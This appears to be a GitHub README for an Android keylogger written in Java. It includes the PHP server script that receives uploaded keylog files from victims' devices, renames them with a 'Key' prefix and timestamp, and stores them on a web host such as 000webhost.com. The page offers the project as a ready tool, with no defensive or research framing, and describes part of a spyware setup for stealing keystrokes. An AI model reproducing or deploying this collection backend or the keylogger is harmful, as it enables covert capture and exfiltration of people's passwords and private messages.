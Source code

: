 ![keylog](https://user-images.githubusercontent.com/31372178/130394535-acc136f5-649f-42e0-9d53-8abcaea1ba5c.PNG)
# Android-Keylogger
This is a simple solucion Android's Keylogger, this program is writted in Java and used more componet like a PHP for the creation the log of file in a web server. The web server have been used 000webhost.com but every web server can be used.

this is the php code:

/*<?php
 if (isset($_FILES["uploaded_file"]["name"])) {
$new_name = "Key".date("his").".txt";
$name = $_FILES["uploaded_file"]["name"];
$tmp_name = $_FILES['uploaded_file']['tmp_name'];
$error = $_FILES['uploaded_file']['error'];

if (!empty($name)) {
    $location = './Key/';

 if ( ! is_dir($location)) {
 mkdir($location);
 }

    if  (move_uploaded_file($tmp_name, $location.$name)){
        rename( $location.$name, $location.$new_name);
        echo 'Uploaded';
    }

} else {
    echo 'please choose a file';
}
}
 ?>*/
 
![keylog](https://user-images.githubusercontent.com/31372178/130394572-d56767e4-bc5a-4a21-bf47-ce1c232f5b07.PNG)
